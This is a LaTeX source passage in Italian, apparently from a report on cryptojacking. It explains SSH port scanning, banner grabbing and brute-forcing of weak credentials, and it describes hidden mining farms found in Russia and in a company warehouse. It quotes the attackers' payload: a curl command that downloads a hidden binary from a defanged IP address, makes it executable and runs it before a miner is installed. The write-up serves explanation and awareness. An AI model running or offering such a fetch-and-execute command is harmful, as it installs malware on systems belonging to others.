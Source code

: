 \documentclass[12pt,a4paper]{article}
\begin{document}
Fondamentalemente, gli hacker, cercavano credenziali di accesso deboli dei
server SSH. Per trovare questo tipo di credenziali, i criminali, andavano a
scansionare le porte dei server al fine di trovarne una aperta, una volta
individuata vanno a richiedere informazioni dal server che risponde con un
\textit{banner}. Questo banner indica che tipo di servizio offre il server, la
sua versione e nel caso sia un server SSH potrebbe dare ulteriori dettagli sulla
versione del software SSH in esecuzione. Una volta che gli hacker hanno trovato
un accesso al server SSH, utilizzano un software di brute force per identificare
credenziali valide per poi procedere con l'iniezzione del payload.

\paragraph{Payload} Gli hacker eseguono nella sessione SSH il seguente codice:

\begin{verbatim}
    curl -O http://45[.]32[.]112[.]68/.sherifu/.93joshua && 
                    chmod 777 .93joshua && ./.93joshua && uname -a
\end{verbatim}

Una volta preso il controllo della macchina, gli infiltrati installavano XMRing
nella macchina.

\subsection{Crypto farm nascoste in zone private}
Il cryptojacking, anche se nella maggior parte delle volte è effettuato
sfruttando le macchine delle vittime in alcuni casi può essere attutato andando
a gravere solo sulle risorse energetiche della vittima. Non sono infatti rari i
casi in cui i criminali installano delle farm più o meno grandi in edifici o
stanze poco frequentati/e. Uno di questi è il casi è stato scoperto in Russia,
dove la polizia di Orenburg, investigando su un eccessivo consumo di corrente,
denununciato dalla compagnia pubblica statale, ha scoperto un impianto di
farming in un edificio abbandonato. L'impianto era alimentato da un
allacciamento illegale ad una stazione di trasformazione poco lontana. Sono
stati trovati scafali e scafali di potenti GPU, nel seguente
\href{https://youtu.be/aLTTRZJIvY4}{link} è possibile trovare un video della
farm. Un altro caso noto è quello di un dipendente che scoprì una piccola farm
in un magazzino della azienda per la quale lavora. Il dipendente notò un rumore
strano provenire da una scatola su uno scafale, andandola ad aprire rivelò una
serie di GPU in serie collegate alla rete aziendale che minavano criptovalute.
Di seguito un'immagine.
\end{document}
